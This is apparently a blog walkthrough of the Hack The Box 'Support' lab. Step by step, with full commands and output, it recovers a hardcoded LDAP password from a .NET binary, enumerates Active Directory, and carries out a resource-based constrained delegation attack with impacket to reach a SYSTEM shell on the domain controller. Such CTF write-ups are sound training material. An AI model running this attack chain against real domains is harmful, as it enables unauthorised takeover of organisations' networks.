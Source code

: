 ```yaml
---
layout: post
title: HackTheBox - Support
subtitle: CTF Walkthrough
cover-img: /assets/img/support/support.png
tags: [ctf, 'Hack The Box', 'htb', 'windows']
comments: true
---
```


Easy rated and most importantly free Windows box found in Hack The Box. Lets give it a shot!

### Enumeration

Looks like I will be working with AD environment based on DNS, Kerberos and LDAP ports.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-04 09:28 EST
Nmap scan report for support.htb (10.10.11.174)
Host is up (0.10s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-04 14:29:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-12-04T14:29:09
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.17 seconds

```

### SMB

Spun up Crackmapexec to list open shares with guest user. Looks liked there's a non-standard share "support staff tools"

```
└─$ cme smb 10.10.11.174 -u "guest" -p "" --shares         
 
[*] completed: 100.00% (1/1)
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SMB         10.10.11.174    445    DC               [+] Enumerated shares
SMB         10.10.11.174    445    DC               Share           Permissions     Remark
SMB         10.10.11.174    445    DC               -----           -----------     ------
SMB         10.10.11.174    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.174    445    DC               C$                              Default share
SMB         10.10.11.174    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.174    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.174    445    DC               support-tools   READ            support staff tools
SMB         10.10.11.174    445    DC               SYSVOL                          Logon server share 
```

SMB Share contains well-known support tools except for **UserInfo.exe.zip** which seems to be an odd one out.

```
└─$ smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022
  
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (242.2 KiloBytes/sec) (average 242.2 KiloBytes/sec)

```

Downloaded and unziped the archive. **UserInfo.exe** looks to be something that can be inspected further.

![alt text](/assets/img/support/1.png)

**Strings** and **cat** does not reveal that much sense out of this executable. I have decided to transfer it to my Windows VM and inspect it with [dnSpy debugger](https://github.com/dnSpy/dnSpy). By inspecting functions I've observed function called **getPassword()** which uses a hardcoded password for LDAP queries. Unfortunately password is encoded.

![alt text](/assets/img/support/2.png)

Setting a breakpoint before password is used in the program I managed to collect plaintext password alongside with username that can be observed in LdapQuery function.

![alt text](/assets/img/support/3.png)

I have verified that password is working using CME.
```
─$ cme smb 10.10.11.174 -u "ldap" -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

### Exploitation

With credentials that I have collected, I have enumerated LDAP and collected info for Bloodhound.

LDAP search revealed a password for **support** user found in **info** property.

```
└─$ ldapsearch -x -H ldap://10.10.11.174 -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "Cn=Users,DC=support,DC=htb" > ldap_users.txt 
```

![alt text](/assets/img/support/4.png)

```
└─$ python bloodhound.py -ns 10.10.11.174 -d support.htb -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WALULA.support.htb
INFO: Querying computer: 
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
WARNING: Could not resolve: WALULA.support.htb: The resolution lifetime expired after 3.204 seconds: Server 10.10.11.174 UDP port 53 answered The DNS operation timed out.; Server 10.10.11.174 UDP port 53 answered The DNS operation timed out.
INFO: Done in 00M 27S
```
Reviewing results in Bloodhound I have observed that support user ,who's credentials I found in LDAP, is member of "**Shared Support Accounts"** who has **GenericAll** (Resource Based Contrained Delegatiot) privileges over DC which can be used to escalate privileges.

![alt text](/assets/img/support/5.png)

### Privilege Escalation

First I created fake computer using impacket.

```
└─$ impacket-addcomputer support.htb/support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account ATTACK$ with password AttackerPC1!.
```

Then I have used [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) to modify delegation rights.

```
└─$ python rbcd.py -dc-ip 10.10.11.174 -t dc -f 'ATTACK' support.htb\\support:Ironside47pleasure40Watchful
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.10.11.174
[*] Using support.htb\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `ATTACK` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified successfully!
[*] ATTACK$ can now impersonate users on dc$ via S4U2Proxy
```

Next I used **impacket-getST** to get service ticket.

```
└─$ impacket-getST -spn cifs/dc.support.htb support.htb/attack\$:'AttackerPC1!' -impersonate administrator -dc-ip 10.10.11.174   
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

Export ticket as environment variable.

```
└─$ export KRB5CCNAME=./Administrator.ccache
```

Finally used impacket psexec with -no-pass arg to psexec to DC. 

```
└─$ impacket-psexec -k -no-pass dc.support.htb -dc-ip 10.10.11.174          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file xMbicevQ.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service YuDO on dc.support.htb.....
[*] Starting service YuDO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And I am root ! Spend some time on this machine, I would rate this as medium and not easy.